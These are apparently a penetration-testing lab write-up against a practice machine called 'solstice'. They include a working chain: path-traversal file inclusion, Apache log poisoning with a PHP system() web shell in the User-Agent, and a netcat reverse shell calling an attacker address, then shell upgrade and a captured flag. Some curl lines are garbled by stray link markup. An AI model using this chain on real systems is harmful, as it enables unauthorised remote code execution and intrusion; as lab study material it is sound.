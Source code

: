
-- Post Reboot --

Same IP: 192.168.235.72

  

curl -s "http://[192.168.235.72:8593](http://192.168.235.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%2080%20-e%20/bin/bash%20&)/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20[192.168.45.231](http://192.168.235.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%2080%20-e%20/bin/bash%20&)%2080%20-e%20%2Fbin%2Fbash%20"

  

Missed the php shell set command to recognize "cmd"

  

curl 192.168.235.72 -A "<?php system(\$_GET['cmd'])?>"

  

Now for the rev shell prompt from the log

curl -s "http://[192.168.235.72:8593](http://192.168.235.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%2080%20-e%20/bin/bash%20&)/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20[192.168.45.231](http://192.168.235.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%2080%20-e%20/bin/bash%20&)%2080%20-e%20%2Fbin%2Fbash%20"

  

#Exploit

Run it and now I need to wait for the dirbuster logs to finish before it finishes the log poison and executes the nc rev shell...

  

Not working so I'll reset the VM to remove the logs and try again.

  

Now in and upgrade shell

nc -nlvp 80  
connected to [192.168.235.72](http://192.168.235.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%2080%20-e%20/bin/bash%20&)

python -c 'import pty; pty.spawn("/bin/bash")'

www-data@solstice:/home/miguel$ 

www-data@solstice:~$ ls

ls

html  local.txt

www-data@solstice:~$ cat local.txt

cat local.txt

ffcc21b969ac7bbff1732f6d085c4d14

  